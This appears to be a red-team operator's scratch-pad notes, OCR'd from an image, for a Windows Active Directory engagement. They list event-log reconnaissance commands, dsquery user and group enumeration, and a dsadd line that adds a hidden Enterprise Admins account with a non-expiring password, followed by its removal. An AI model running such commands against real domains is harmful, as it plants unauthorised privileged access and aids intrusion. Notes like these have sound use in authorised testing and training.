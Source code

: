 
================================================================================
MAP USERS TO BOXES - Who is talking?  Maybe Use Bloodhound
================================================================================
run event_manager -l security -f 672 -p -s Downloads


================================================================================
SEARCH FOR EVIDENCE OF PRESENCE - Is Someone else there?
================================================================================
run event_manager -f <event_id> -l security
#events: 538,624,630


================================================================================
+++++++++++++++++++RED TEAM FUN+++++++++++++++++++++++++++++++++++++++++++++++++
================================================================================





=================================================================================
==========================+++++++SCRATCH PAD++++++++=============================
dsquery group -name "DHCP Administrators" | dsget group -members -expand

dsquery user | dsget user -samid -fn -ln

dsquery user -name "dbagaroo" | dsget user -memberof -expand

dsquery user -name "kelli" | dsget user -samid -fn -ln

dsadd user "cn=DBagaroo,cn=Users,DC=targetsite1,DC=local" -memberof "cn=Enterprise Admins,cn=USers,DC=targetsite1,DC=local" -samid dbagaroo -pwd P@ssw0rd -pwdneverexpires yes

dsrm -subtree -noprompt "cn=DBagaroo,cn=Users,DC=targetsite1,DC=local"

run event_manager -f 538 -l security
run event_manager -f 624 -l security
run event_manager -f 630 -l security
